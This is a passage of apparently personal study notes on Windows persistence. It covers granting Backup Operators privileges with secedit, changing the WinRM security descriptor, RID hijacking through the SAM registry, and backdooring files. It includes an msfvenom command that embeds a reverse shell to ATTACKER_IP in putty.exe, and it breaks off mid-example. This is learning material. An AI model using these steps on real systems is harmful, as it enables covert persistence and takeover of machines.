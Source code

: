 ```
				- Make changes to the temp file as needed
				- (ie to the Privilege Rights section, adding a user to the SeBackup/RestorePrivilege lines
			- now we convert that inf file into an sdb file
				- `secedit /import /cfg config.inf /db config.sdb`
			- Then configure it into the system
				- `secedit /configure /db config.sdb /cfg config.inf`
			- Another way to allow remote connections for Backup Operators users
				- Instead of adding the user to the Remote Management Users group, we'll change the security descriptor associated with the WinRM service to allow users to connect
					- Security descriptors can be like ACLs but applied to other system facilities
				- Via GUI instance of PowerShell:
					- `Set-PSSessionConfiguration -Name Microsoft.PowerShell -showSecurityDescriptorUI`
			- Note that users won't appear in any local groups via this method
	- RID (Relative) ID Hijacking
		- Changing some reg values to make the OS think that you are an admin
		- An RID is assigned to users when they are first created. 
		- This is a numerical identifier representing the user across the system
		- The LSASS (Local System Authority Subsystem Service)
		- The LSASS process gets the users RID from the SAM registry hive, and then creates an access token associated with that RID
		- If the registry value can be tampered with, then we can make Windows assign an Administrator access token to an unprivileged user by associated the same RID to both accounts
		- Windows systems
			- Default Admin account is assigned RID = 500
			- Regular users will be >= 1000
				- Somewhat similar to Linux environments
			- Command to view SIDs, RIDs
				- `wmic useraccount get name,sid`
			- The RID is the last bit of the sid
			- psexec (PsExec64.exe) in pstwools will be needed to access the SAM via regedit (as the SAM is restricted to the SYSTEM account only - meaning admin can't modify it either)
			- In the drive where psexec is:
				- `PsExec64.exe -i -s regedit`
				- NOTE: This will need a GUI
			- `Computer\HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users`
			- Note that the registries listed here will be in hex - get the RID and convert it to hex to move forward
			- There will be a key called `F` - the RID will be at position 0x30 (You'll notice that the RID is right to left, inverted essentially)
			- We then want to replace these bytes with the Admin RID (500, in hex is **01F4**) - replace the entry in 0x30 with **F4 01**
	- Backdooring Files
		- Tampering with files that a user will access regularly (from reconnaissance work already carried out) - backdoors can be planted that will execute whenever the user accesses them. 
		- To prevent alerts from arising - we alter the files in such a way so that said files keep working as expected for the user. 
		- There are many opportunities for various backdoors, the following will cover the most commonly used ones. 
		- Executable Files
			- msfvenom can create a payload of any preference in an .exe file
			- The binary will work as usual, but execute an additional payload silently by adding an extra thread in the binary - for example for putty:
			- `msfvenom -a x64 --platform windows -x putty.exe -k -p windows/x64/shell_reverse_tcp lhost=ATTACKER_IP lport=4444 -b "\x00" -f exe -o puttyX.exe`
			- Pretty neat B) 
		- Shortcut Files
			- If we don't want to muck around with the main executable, then why not the shortcut that points to it
			- Example: calc.exe
				- Creating a PS script:
				```powershell
```